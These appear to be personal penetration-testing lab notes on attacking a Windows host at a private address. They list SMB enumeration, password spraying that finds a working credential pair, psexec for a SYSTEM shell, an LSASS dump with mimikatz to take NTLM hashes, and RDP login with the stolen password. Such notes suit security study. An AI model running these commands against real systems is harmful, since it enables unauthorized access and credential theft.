 
1. first of all, we think oh I need to check what files is in?
- read/write permission check
  - netexec
  netexec smb 172.31.214.13 -u '' -p ''
    check null session (no input creds)
    x
    password spraying
      netexec smb 172.31.214.13 -u username.txt -p 'carolina' --verbose
        minseok.kim:carolina matched
  netexec smb 172.31.214.13 -u 'minseok.kim' -p 'carolina' --shares
    default share? but read permissons on IPC$
  - smbmap
  smbmap -H 172.31.214.13
  - enum4linux
    enum4linux -a 172.31.214.13
- access to shares
  - smbclient \\\\172.31.214.13\\IPC$ -U minseok.kim%carolina
    nothing files
      no writable as this user = can't get shell with impacket-psexec
        RDP or WinRM and privilege escalation first(if it is in group of Remote Desktop Users or Remote Management Users > check one by one) 

- need to know creds to see shares and access

2. get remote access unofficially 
  - get shell wiht impacket-psexec as system
impacket-psexec user:'password'@172.31.214.13



### RDP 3389
- microsoft terminal services = RDP
  - oh I can go through RDP when I have creds
- we're gonna get creds of low or high accounts doing LSASS dump - invoke-mimikatz -dump~ to get NTLM hash > 1. decrypt 2. use rightaway runas specific user 
  and check if the user is in RDP groups or not.
vulns in this version or ?

- script
  - default
    - version: 10.0.11
    - what is brute?
    - Domain name?
  - rdp*
    computer info- domain or computer name = BRUTE

- as minseok 
xfreerdp /u:minseok.kim /p:'carolina' /v:172.31.233.99 /dynamic-resolution
  let's dive deep for Escalation Privilege in Post-Exploitation 
  
   


### WinRM 5895 47001
- usually 5985 5986
- 47001 I think 
it shows as http
